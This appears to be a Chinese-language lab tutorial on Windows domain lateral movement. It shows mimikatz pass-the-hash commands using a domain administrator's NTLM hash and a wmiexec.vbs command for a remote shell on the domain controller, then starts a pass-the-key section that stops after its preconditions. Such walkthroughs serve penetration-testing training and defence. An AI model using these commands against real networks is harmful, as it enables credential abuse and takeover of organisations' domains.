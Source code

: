 *   xie
    

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFj38BDjibVZuvg5ky151DSXRUFP3QeN4fC9dJ8icWTHhfuJnyJVdkJMQbDRL9W8iaVwaJfD0ZwLn02CQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFj38BDjibVZuvg5ky151DSXRghHvAcQtNuZeEyqg2fYZdOEpU1VuC4dwhxv085ptnJuubORbgH8jNg/640?wx_fmt=png)

  

![](https://mmbiz.qpic.cn/mmbiz_gif/UZ1NGUYLEFj38BDjibVZuvg5ky151DSXRuuNsibqqHiaN2j2K0NoyqVyU6xBibvO7nvt7pLLckgQImV16iaCeuKCWvA/640?wx_fmt=gif)

  

**mimikatz 进行哈希传递攻击 PtH(域)**

在域环境中，当我们获得了 域管理员组内用户 的 NTLM 哈希值，我们可以使用域内的一台主机用 mimikatz 对域内任何一台机器 (包括域控) 进行哈希传递攻击。执行完命令后，会弹出 CMD 窗口，在弹出的 CMD 窗口我们可以访问域内任何一台机器。前提是我们必须拥有域内任意一台主机的本地管理员权限和域管理员的密码 NTLM 哈希值。

*   域：xie.com
    
*   域控：WIN2008.xie.com
    
*   普通域主机：WIN2003
    
*   域管理员：test
    
*   域普通用户：hack
    

```
privilege::debug    #先提权

#使用域管理员test的NTLM哈希值对域控进行哈希传递攻击,域用户test在域管理员组中
sekurlsa::pth  /user:test  /domain:xie.com  /ntlm:6542d35ed5ff6ae5e75b875068c5d3bc
```

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFj38BDjibVZuvg5ky151DSXRlKcFBdEeVXoQ3jG3TibMicZDLSGsdc2lNw1kicS1qQW4plLbudAfr9BWg/640?wx_fmt=png)

  

在弹出的 cmd 窗口中，使用 wmiexec.vbs 进行验证

```
cscript wmiexec.vbs /shell Win2008
```

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFj38BDjibVZuvg5ky151DSXR0ico3uWHgG8vwiaDWESib3PXoSiaibQrznh3icw6ddI75UnXrX6aZ7lZMezA/640?wx_fmt=png)

  

只有域管理员的 NTLM 哈希值才可以进行哈希传递攻击，域普通用户的 NTLM 哈希值无法进行哈希传递攻击

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFj38BDjibVZuvg5ky151DSXRrl5j60CiaIQgxQF31PML3ybdlE1T4ZCcPlbibdV5o23NH3CByZEuibNcg/640?wx_fmt=png)

  

![](https://mmbiz.qpic.cn/mmbiz_gif/UZ1NGUYLEFj38BDjibVZuvg5ky151DSXRuuNsibqqHiaN2j2K0NoyqVyU6xBibvO7nvt7pLLckgQImV16iaCeuKCWvA/640?wx_fmt=gif)

  

**使用 AES 进行 Key 传递攻击 (PTK,Pass The Key)**

前提：只适用于域环境，并且目标主机需要安装 KB2871997 补丁
